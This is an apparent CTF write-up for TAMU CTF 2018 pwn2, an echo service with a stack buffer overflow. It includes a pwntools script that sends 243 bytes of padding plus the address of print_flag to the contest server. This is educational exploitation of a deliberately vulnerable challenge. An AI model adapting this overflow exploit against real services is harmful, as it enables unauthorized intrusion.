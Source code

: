 ```yaml
---
title:  TAMU CTF 2018 - PWN2
author: zangobot
layout: writeup
category: ctf
tags: [ ctf, springchicken, challenge ]
---
```

pwn2 asks the user to enter a sentence and it will reply with the same message.

```
I just love repeating what other people say!
I bet I can repeat anything you tell me!

stardibistengodelmisticosoledeimoscardinideltacamorodimontorsi

stardibistengodelmisticosoledeimoscardinideltacamorodimontorsi
```

My intuition is suggesting me to mess with the length of the input string.

After some trials, I found that with a string longer than 243 characters, the program halts in [SIGSEGV](https://en.wikipedia.org/wiki/Segmentation_fault).

This time, the buffer is long enough for a shellcraft... if only the NX bit were disabled.

I can't proceed in that direction. Should I use ROP?

Why the hell? There is the `print_flag` function in the binary! As regards ASLR and canary, same as [pwn1]({{site.base_url}}/writeups/TAMU2018/pwn1), they are both disabled.

So, the exploit is:

```
from pwn import *

OFFSET = 243
shell = p32(0x0804854b)
exploit = 'A'*OFFSET + shell
rem = remote('pwn.ctf.tamu.edu', 4322)
rem.sendline(exploit)
rem.interactive()

```


Flag captured :-D
